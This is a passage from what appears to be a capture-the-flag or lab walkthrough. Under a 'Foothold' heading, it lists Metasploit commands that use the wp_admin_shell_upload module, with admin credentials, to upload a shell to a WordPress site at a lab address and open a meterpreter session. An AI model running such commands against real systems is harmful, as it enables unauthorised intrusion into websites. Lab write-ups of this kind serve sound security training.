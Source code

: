 <div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image96.png"></div>


### &#9702; Foothold


The administrative access can be leveraged through the msfmodule
**“exploit/ unix/webapp/wp\_admin\_shell \_upload”**, to get a
meterpreter shell  on the system. Let’s follow the following commands in
order to get a session:
``` script 
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image97.png"></div>